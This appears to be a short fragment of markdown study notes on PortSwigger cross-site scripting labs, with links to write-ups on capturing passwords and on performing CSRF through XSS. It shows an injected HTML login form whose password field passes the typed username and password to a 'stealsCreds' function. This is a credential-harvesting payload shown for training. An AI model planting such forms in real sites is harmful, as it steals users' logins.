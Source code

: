 ```html 
    username:<input type="text" id="username101" name="username" />
    password:<input
      name="password"
      type="password"
      id="password101"
      onchange="if(this.value.length){stealsCreds((document.getElementById('username101').value),(document.getElementById('password101').value));}"
    />
  </form>
</body>
```
Lab: [Exploiting cross-site scripting to capture passwords](../../../../writeups/portswigger/Exploiting%20cross-site%20scripting%20to%20capture%20passwords.md)
## Exploiting XSS To Perform CSRF 
Lab: [Exploiting XSS to perform CSRF](../../../../writeups/portswigger/Exploiting%20XSS%20to%20perform%20CSRF.md)